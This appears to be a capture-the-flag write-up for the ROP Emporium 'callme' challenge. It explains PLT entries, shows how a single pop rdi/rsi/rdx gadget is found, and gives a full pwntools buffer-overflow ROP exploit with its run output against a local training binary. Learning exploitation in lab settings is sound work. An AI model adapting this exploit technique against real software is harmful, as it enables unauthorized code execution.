 # callme

_call me maybe?_

This is where it gets interesting. Remember when I said to research the PLT last writeup? Yeah, this is why.

If you haven't already, read up on how it works. You can do so [here](https://ropemporium.com/guide.html#Appendix%20A), but there are tons of resources out there.

In this challenge, the author makes life easy for us and removes the need for any reversing by telling us the objective:

> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. For the x86_64 binary double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

This means we need to control `rdi`, `rsi`, and `rdx`, as parameters to functions are passed in these registers.

Looking at the binary in Cutter, we see the same three functions:

```text
sym.main
sym.pwnme
sym.usefulFunction
```

We also see this:

```text
sym.imp.callme_one
sym.imp.callme_two
sym.imp.callme_three
```

Now, the functions we have to call are outside of the binary. They are located in `libcallme.so`, which was provided with the challenge. This means they are dynamically resolved at runtime as they are called.

Going back to the binary, we'll take a look at `usefulFunction`'s decompilation:

```c
void usefulFunction(void)
{
    callme_three(4, 5, 6);
    callme_two(4, 5, 6);
    callme_one(4, 5, 6);
    exit(1);
    return;
}
```

Well, that's not very useful. Looking at the disassembly only strengthens this:

```assembly
; addresses removed for brevity
; usefulFunction ();
push    rbp
mov     rbp, rsp
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_three ; sym.imp.callme_three
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_two ; sym.imp.callme_two
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_one ; sym.imp.callme_one
mov     edi, 1 ; int status
call    exit ; sym.imp.exit ; void exit(int status)
```

Not only are the functions called in the wrong order, they are also called with the wrong arguments. In fact, we can't change these arguments, because we don't control `edx`, `esi`, or `edi`. We could find a gadget somewhere and `ret` directly to the calls after popping the required values into our registers, but that would be a long and complicated ROP chain.

As it turns out, this function is only here to make sure that the functions get imported by the linker at compile time and their entries get placed in the PLT.

So, instead of jumping to this, we could just jump to their entries in the PLT.

Now, all we need to do is find some gadgets that can pop `rdi`, `rsi`, and `rdx`. The order doesn't matter, as we can craft the buffer overflow to suit the gadget. We can use `ROPgadget` to find such gadgets like so:

```text
$ ROPgadget --binary ./callme | grep rdi

0x0000000000400a3d : add byte ptr [rax], al ; add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x0000000000400a3f : add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x0000000000400a3c : add byte ptr fs:[rax], al ; add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x000000000040093b : lcall [rdi + 0x5e] ; pop rdx ; ret
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
0x00000000004009a3 : pop rdi ; ret
```

Look at that second last result.

```text
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```

Great. Guess we only need one gadget then.

With this, we can construct our exploit:

```python
from pwn import *

context.arch = "amd64"

# doing this saves us from hardcoding a lot of stuff
elf = context.binary = ELF("./callme")

# case in point:
# we can just lookup the addresses of each function via the symbol table.
# no need to trawl through the PLT looking for them.
CALLMES = [
    p64(elf.symbols.callme_one),
    p64(elf.symbols.callme_two),
    p64(elf.symbols.callme_three),
]

# set the params we need to call the functions with
RDI = p64(0xdeadbeefdeadbeef)
RSI = p64(0xcafebabecafebabe)
RDX = p64(0xd00df00dd00df00d)

# still need to hardcode this though
# pop rdi; pop rsi; pop rdx; ret
GADGET = p64(0x40093c)

# overflow the buffer
payload = b'A' * 40

# since we add the exact same things in the exact same order for each call,
# just use a loop
for i in range(3):
    # first ret to the gadget
    payload += GADGET
    # the gadget will pop rdi
    payload += RDI
    # then pop rsi
    payload += RSI
    # then pop rdx
    payload += RDX
    # then ret to the function
    payload += CALLMES[i]

conn = process("./callme")

conn.recvuntil(b'> ')
conn.send(payload)
recved = conn.recvall()

# pretty print because we can
print(recved.decode("ascii"))
```

Great. We can run this now.

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/3-callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process './callme': pid 186777
[+] Receiving all data: Done (104B)
[*] Process './callme' stopped with exit code 0 (pid 186777)
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

Boom.
